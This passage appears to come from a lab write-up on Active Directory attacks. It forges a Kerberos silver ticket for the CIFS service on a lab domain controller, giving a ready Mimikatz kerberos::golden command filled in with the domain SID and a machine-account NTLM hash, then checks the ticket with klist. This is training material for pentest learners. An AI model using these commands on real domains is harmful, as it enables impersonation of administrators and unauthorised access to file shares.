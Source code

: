 * Domain name -> `dev-angelist.lab`
* Domain SID -> `S-1-5-21-1954621190-1971745961-1283776715`
* Target -> `corp-dc.dev-angelist.lab`
* NTLM hash of the machine account -> `11bc07660f7c9a2d8f7cead855b8c72b`
* Service name -> Cifs
* id -> 500 (administrator id)

```powershell
kerberos::golden /sid:<SID_Value> /domain:<Domain_Value> /target:<Target_Value> /service:cifs /rc4:<NTLM_Machine> /user:administrator /id:<ID_Value> /ptt
```

```powershell
kerberos::golden /sid:S-1-5-21-1954621190-1971745961-1283776715 /domain:dev-angelist.lab /target:corp-dc.dev-angelist.lab /service:cifs /rc4:11bc07660f7c9a2d8f7cead855b8c72b /user:Administrator /id:500 /ptt
```

<figure><img src="../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

Exit to mimikatz and check the ticket using `klist`:

<figure><img src="../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>
